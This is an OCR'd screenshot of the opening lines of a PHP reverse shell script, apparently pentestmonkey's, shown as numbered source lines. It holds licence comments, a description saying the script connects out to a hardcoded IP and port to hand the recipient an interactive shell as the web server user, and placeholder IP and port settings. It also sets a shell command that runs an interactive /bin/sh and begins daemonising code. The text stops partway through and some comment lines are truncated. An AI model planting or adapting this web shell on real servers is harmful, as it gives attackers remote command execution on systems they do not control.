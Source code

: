 18 // MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
19 // GNU General Public License for more details.
20 //
21 // You should have received a copy of the GNU General Public License along
22 // with this program; if not, write to the Free Software Foundation, Inc.,
23 // 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
24 //
25 // This tool may be used for legal purposes only. Users take full responsi
26 // for any actions performed using this tool. If these terms are not accep
27 // you, then do not use this tool.
28 //
29 // You are encouraged to send comments, improvements or suggestions to
30 // me at pentestmonkey@pentestmonkey.net
31 //
32 // Description
33 // -----------
34 // This script will make an outbound TCP connection to a hardcoded IP and p
35 // The recipient will be given a shell running as the current user (apache
36 //
37 // Limitations
38 // -----------
39 // proc_open and stream_set_blocking require PHP version 4.3+, or 5+
40 // Use of stream_select() on file descriptors returned by proc_open() will
41 // Some compile-time options are needed for daemonisation (like pcntl, posi
42 //
43 // Usage

44 // -----
45 // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
46
47 set_time_limit (0);
48 $VERSION = "1.0";
49 $ip = '127.0.0.1'; // CHANGE THIS
50 $port = 1234; // CHANGE THIS
51 $chunk_size = 1400;
52 $write_a = null;
53 $error_a = null;
54 $shell = 'uname -a; w; id; /bin/sh -i';
55 $daemon = 0;
56 $debug = 0;
57
58 //
59 // Daemonise ourself if possible to avoid zombies later
60 //
61
62 // pcntl_fork is hardly ever available, but will allow us to daemonise
63 // our php process and avoid zombies. Worth a try...
64 if (function_exists('pcntl_fork')) {
65 // Fork and have the parent process exit
66 $pid = pcntl_fork();
67
68 if ($pid == -1) {
69 printit("ERROR: Can't fork");
70 exit(1);
71 }
72
73 if ($pid) {
74 exit(0); // Parent exits
75 }
76
77 // Make the current process a session leader
78 // Will only succeed if we forked
79 if (posix_setsid() == -1) {
80 printit("Error: Can't setsid()");